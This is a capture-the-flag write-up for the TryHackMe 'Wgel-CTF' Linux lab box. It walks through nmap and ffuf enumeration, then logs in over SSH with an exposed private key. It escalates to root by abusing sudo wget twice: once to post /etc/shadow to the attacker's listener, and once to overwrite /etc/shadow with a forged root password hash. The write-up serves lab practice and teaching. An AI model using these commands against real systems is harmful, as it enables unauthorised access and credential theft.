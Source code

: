 # Wgel-CTF

**IP:** 10.10.108.60  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 07/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.108.60 -oA nmap/Wgel-CTF
```

| Port | Service | Version                         |
| ---- | ------- | ------------------------------- |
| 22   | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 |
| 80   | http    | Apache httpd 2.4.18             |

## Enumeration

Site root `/` source reveals a username `jessie` in a comment.
```html
<!-- Jessie don't forget to udate the webiste -->
```

Found a `.ssh` directory in `/sitemap` on the webserver.
```bash
ffuf -u http://10.10.108.60:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -s -fc 403 -e .php,.txt 

sitemap
                                                             
ffuf -u http://10.10.108.60:80/sitemap/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -s -fc 403 -e .php,.txt

images
js
css
.
fonts
.ssh
```

## Exploitation

Downloaded `jessie`'s `id_rsa` private key and SSH'd in.
```bash
wget -q http://10.10.108.60/sitemap/.ssh/id_rsa;ls
id_rsa
                                                                         
chmod 600 id_rsa   

ssh jessie@10.10.108.60 -i id_rsa  
```

User flag was in `/home/jessie/Documents/user_flag.txt`
```bash
cat /home/jessie/Documents/user_flag.txt 
```
## Privilege Escalation

`jessie` could run `/usr/bin/wget` as `root` with NOPASSWD.
```bash
sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

So I opnened a `netcat` listener on my machine
```bash
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
```

And was able to send over `/etc/shadow` to the listener with the `sudo` permissions.
```bash
sudo /usr/bin/wget --post-file=/etc/shadow 10.23.121.106:4444

--2025-06-07 19:33:55--  http://10.23.121.106:4444/
Connecting to 10.23.121.106:4444... connected.
...
```

I then generated a new password for the root user, saved it to a `shadow.txt` file and served it back to the target machine.
```bash
...
root:!:18195:0:99999:7:::
...
                                                                          
openssl passwd -6 -salt 'wither' 'wither'
$6$wither$/qpRfUDUvxPw.lF8NwoqIXa/bUT/Pc6zIImHSDELtQHebax0/GWhGx8ixElaMHlDbWUXbIMlnIMAwEtHN1SCt0
                                                                                nvim shadow.txt 
                                                                                head shadow.txt 
                                                                                
root:$6$wither$/qpRfUDUvxPw.lF8NwoqIXa/bUT/Pc6zIImHSDELtQHebax0/GWhGx8ixElaMHlDbWUXbIMlnIMAwEtHN1SCt0:18195:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
                                                                                python3 -m http.server 80
```

I again used the `sudo` permissions on `wget` to overwrite `/etc/shadow` with my malicious `shadow.txt`, and login as the `root` user with my new password.
```bash
sudo /usr/bin/wget http://10.23.121.106:80/shadow.txt -O /etc/shadow 

--2025-06-07 19:37:39--  http://10.23.121.106/shadow.txt
Connecting to 10.23.121.106:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1368 (1,3K) [text/plain]
Saving to: ‘/etc/shadow’

/etc/shadow             100%[============================>]   1,34K  --.-KB/s    in 0s      

2025-06-07 19:37:39 (150 MB/s) - ‘/etc/shadow’ saved [1368/1368]

jessie@CorpOne:~$ su -
Password: 
root@CorpOne:~# 
```

`root` flag was in `/root/root_flag.txt`,
```bash
cat /root/root_flag.txt
```

## References
- [Sudo Wget Privilege Escalation \| Linux Privilege Escalation](https://morgan-bin-bash.gitbook.io/linux-privilege-escalation/sudo-wget-privilege-escalation)

---
#nmap #ffuf #ssh-key-exposure #sudo-wget #shadow-overwrite #gtfobins #file-exfil #password-gen #linux-privesc #thm
